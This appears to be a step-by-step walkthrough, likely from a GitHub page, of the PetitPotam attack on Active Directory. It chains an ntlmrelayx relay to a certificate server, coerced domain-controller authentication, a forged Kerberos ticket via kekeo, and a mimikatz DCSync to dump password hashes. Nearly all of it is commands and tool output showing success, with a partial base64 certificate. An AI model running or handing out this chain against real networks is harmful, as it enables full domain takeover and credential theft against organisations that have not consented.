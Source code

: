 install special ntlmrelayx 

	mkdir dev  
	cd dev  
	git clone https://github.com/ExAndroidDev/impacket.git  
	cd impacket  
	git switch ntlmrelayx-adcs-attack  
	sudo python3 ./setup.py install
	
Start ntlmrelayx server
You need to detect cert server ip

	┌──(kali㉿kali)-[~/Desktop/petitpotam/impacket/examples]
	└─$ sudo python3 ntlmrelayx.py -debug -smb2support --target http://<cert server>/certsrv/certfnsh.asp --adcs --template KerberosAuthentication
	Impacket v0.9.24.dev1+20210815.200803.5fd22878 - Copyright 2021 SecureAuth Corporation

	[+] Impacket Library Installation Path: /usr/local/lib/python3.9/dist-packages/impacket-0.9.24.dev1+20210815.200803.5fd22878-py3.9.egg/impacket
	[*] Protocol Client MSSQL loaded..
	[*] Protocol Client LDAP loaded..
	[*] Protocol Client LDAPS loaded..
	[*] Protocol Client RPC loaded..
	[*] Protocol Client HTTP loaded..
	[*] Protocol Client HTTPS loaded..
	[*] Protocol Client IMAP loaded..
	[*] Protocol Client IMAPS loaded..
	[*] Protocol Client SMTP loaded..
	[*] Protocol Client SMB loaded..
	[*] Protocol Client DCSYNC loaded..
	[+] Protocol Attack DCSYNC loaded..
	[+] Protocol Attack LDAP loaded..
	[+] Protocol Attack LDAPS loaded..
	[+] Protocol Attack MSSQL loaded..
	[+] Protocol Attack IMAP loaded..
	[+] Protocol Attack IMAPS loaded..
	[+] Protocol Attack RPC loaded..
	[+] Protocol Attack HTTP loaded..
	[+] Protocol Attack HTTPS loaded..
	[+] Protocol Attack SMB loaded..
	[*] Running in relay mode to single host
	[*] Setting up SMB Server

	[*] Setting up HTTP Server
	[*] Setting up WCF Server
	[*] Servers started, waiting for connections
	
	
	
initiate Petitpotam attack


	┌──(kali㉿kali)-[~/Desktop/petitpotam/PetitPotam]
	└─$ python3 PetitPotam.py <listen server> <dc ip>                                                                                                       


				  ___            _        _      _        ___            _                     
				 | _ \   ___    | |_     (_)    | |_     | _ \   ___    | |_    __ _    _ __   
				 |  _/  / -_)   |  _|    | |    |  _|    |  _/  / _ \   |  _|  / _` |  | '  \  
				_|_|_   \___|   _\__|   _|_|_   _\__|   _|_|_   \___/   _\__|  \__,_|  |_|_|_| 
			  _| """ |_|"""""|_|"""""|_|"""""|_|"""""|_| """ |_|"""""|_|"""""|_|"""""|_|"""""| 
			  "`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-' 

				  PoC to elicit machine account authentication via some MS-EFSRPC functions
										  by topotam (@topotam77)

						 Inspired by @tifkin_ & @elad_shamir previous work on MS-RPRN



	[-] Connecting to ncacn_np:10.13.8.1[\PIPE\lsarpc]
	[+] Connected!
	[+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
	[+] Successfully bound!
	[-] Sending EfsRpcOpenFileRaw!
	.
	.



check back ntlmrelayx server


	[*] Setting up HTTP Server
	[*] Setting up WCF Server
	[*] Servers started, waiting for connections
	[*] SMBD-Thread-4: Connection from <domain name>/DC$@<DC ip> controlled, attacking target http://<Cert server>
	[*] HTTP server returned error code 200, treating as a successful login
	[*] Authenticating against http://<Cert server> as <domain name>/DC$ SUCCEED
	[*] SMBD-Thread-4: Connection from <domain name>/DC$@<DC ip> controlled, attacking target http://<Cert server>
	[*] HTTP server returned error code 200, treating as a successful login
	[*] Authenticating against http://<Cert server> as <domain name>/DC$ SUCCEED
	[*] SMBD-Thread-4: Connection from <domain name>/DC$@<DC ip> controlled, attacking target http://<Cert server>
	[*] HTTP server returned error code 200, treating as a successful login
	[*] Authenticating against http://<Cert server> as <domain name>/DC$ SUCCEED
	[*] SMBD-Thread-4: Connection from <domain name>/DC$@<DC ip> controlled, attacking target http://<Cert server>
	[*] HTTP server returned error code 200, treating as a successful login
	[*] Authenticating against http://<Cert server> as <domain name>/DC$ SUCCEED
	[*] SMBD-Thread-4: Connection from <domain name>/DC$@<DC ip> controlled, attacking target http://<Cert server>
	[*] HTTP server returned error code 200, treating as a successful login
	[*] Authenticating against http://<Cert server> as <domain name>/DC$ SUCCEED
	[*] Generating CSR...
	[*] CSR generated!
	[*] Getting certificate...
	[*] GOT CERTIFICATE!
	[*] Base64 certificate of user DC$: 
	MIIShQIBAzCCEk8GCSqGSIb3DQEHAaCCEkAEghI8MIISODCCCGcGCSqGSIb3DQEHBqCCCFgwgghUAgEAMIIITQYJKoZIhvcNAQcBMBwGCiqGSIb3DQEMAQMwDgQI1bw80uoT1OECAggAgIIIIGPwCalx5il1r7k/....cCgQIixsKtYEYD3M=
	[*] Skipping user DC$ since attack was already performed
	[*] Skipping user DC$ since attack was already performed
	[*] Skipping user DC$ since attack was already performed
	[*] Skipping user DC$ since attack was already performed
	[*] SMBD-Thread-4: Connection from <domain name>/DC$@<DC ip> controlled, attacking target http://<Cert server>
	[*] HTTP server returned error code 200, treating as a successful login
	[*] Authenticating against http://<Cert server> as <domain name>/DC$ SUCCEED
	[*] Skipping user DC$ since attack was already performed
	[*] SMBD-Thread-4: Connection from <domain name>/DC$@<DC ip> controlled, attacking target http://<Cert server>
	
	
	
Start kekeo and craft a ticket

	kekeo\x64> .\kekeo.exe

	  ___ _    kekeo 2.1 (x64) built on Jul 23 2021 20:56:45
	 /   ('>-  "A La Vie, A L'Amour"
	 | K  |    /* * *
	 \____/     Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
	  L\_       https://blog.gentilkiwi.com/kekeo                (oe.eo)
												 with 10 modules * * */

	kekeo # base64
	isBase64InterceptInput  is false
	isBase64InterceptOutput is false

	kekeo # base64 /input:on
	isBase64InterceptInput  is true
	isBase64InterceptOutput is false

	kekeo # tgt::ask /pfx:MIIShQIBAzCCEk8GCSq...QcCgQIixsKtYEYD3M= /user:DC$ /domain:<domain name> /ptt
	Realm        : <domain name>(<domain name>)
	User         : <DC>$ (<DC>$)
	CName        : <DC>$        [KRB_NT_PRINCIPAL (1)]
	SName        : krbtgt/<domain name>  [KRB_NT_SRV_INST (2)]
	Need PAC     : Yes
	Auth mode    : RSA
	[kdc] name: ..... (auto)
	[kdc] addr: ... (auto)
	 > krbtgt/<Domain name> : OK!

	kekeo #
	

Get user hash with mimikatz

	x64> .\mimikatz.exe

	  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
	 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
	 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
	 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
	 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
	  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

	mimikatz # privilege::debug
	Privilege '20' OK

	mimikatz # lsadump::dcsync /domain:<domain> /user:<user>